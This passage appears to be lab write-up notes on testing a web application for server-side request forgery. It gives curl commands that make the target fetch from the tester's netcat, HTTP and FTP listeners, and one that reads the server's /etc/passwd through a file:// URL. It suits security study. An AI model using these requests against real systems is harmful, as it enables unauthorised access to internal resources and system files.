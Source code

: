   * Testing for SSRF:

    ```shell
    # setup listener
    nc -nvlp 8080

    # issue request to target webapp with our listener instead of 'index.html'
    curl -i -s "http://10.129.201.238/load?q=http://10.10.15.174:8080"
    
    # we get the HTTP response output on our listener
    # this confirms the SSRF vuln
    # since request is issued by target server
    ```
  
  * From HTTP response, we can see target server is using ```User-Agent: Python-urllib/3.8```; from the docs we can see that ```urllib``` supports ```file```, ```http``` and ```ftp``` schemas

  * Using ```urllib``` functionality to fetch remote and local files:

    ```shell
    # create a test 'index.html'
    vim index.html

    # start HTTP server in same directory
    python3 -m http.server 9090

    # also setup and start FTP server
    sudo pip3 install twisted
    sudo python3 -m twisted ftp -p 21 -r .

    # fetch remote file through target app via FTP
    curl -i -s "http://10.129.201.238/load?q=ftp://10.10.15.174/index.html"

    # fetch remote file through target app via HTTP
    curl -i -s "http://10.129.201.238/load?q=http://10.10.15.174:9090/index.html"

    # fetch local file through target app
    curl -i -s "http://10.129.201.238/load?q=file:///etc/passwd"
    ```
  